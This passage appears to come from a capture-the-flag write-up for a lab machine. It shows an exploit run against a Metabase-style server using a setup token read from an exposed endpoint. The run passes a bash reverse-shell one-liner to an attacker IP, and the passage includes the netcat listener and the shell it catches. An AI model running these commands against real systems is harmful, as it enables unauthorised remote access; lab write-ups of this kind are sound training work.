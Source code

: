 The exploit just needs as paramter the setup token, which we can get it from this accessible endpoint
**http://data.analytical.htb/api/session/properties** and the command we want to execute.

![](https://alternume0.github.io/assets/img/analytics_enum02.jpg)


## EXPLOITATION

Using the exploit, let's see if we are able to get a reverse shell.


We run the exploit passing the setup token and the bash command to execute the reverse shell

```bash 
# python3 main.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/10.10.14.192/443 0>&1"
[!] BE SURE TO BE LISTENING ON THE PORT YOU DEFINED IF YOU ARE ISSUING AN COMMAND TO GET REVERSE SHELL [!]

[+] Initialized script
[+] Encoding command
[+] Making request
[+] Payload sent
```

Before, our listener on port 443 to receive the reverse shell is already running

```bash 
# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.192] from (UNKNOWN) [10.10.11.233] 37444
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
be8428fb98ab:/$ 
```

And it worked, We get a shell, 

```bash 
4e9d4f66487b:/$ ifconfig
ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:AC:11:00:02  
          inet addr:172.17.0.2  Bcast:172.17.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:5185 errors:0 dropped:0 overruns:0 frame:0
          TX packets:7403 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:1390223 (1.3 MiB)  TX bytes:9023893 (8.6 MiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)

```
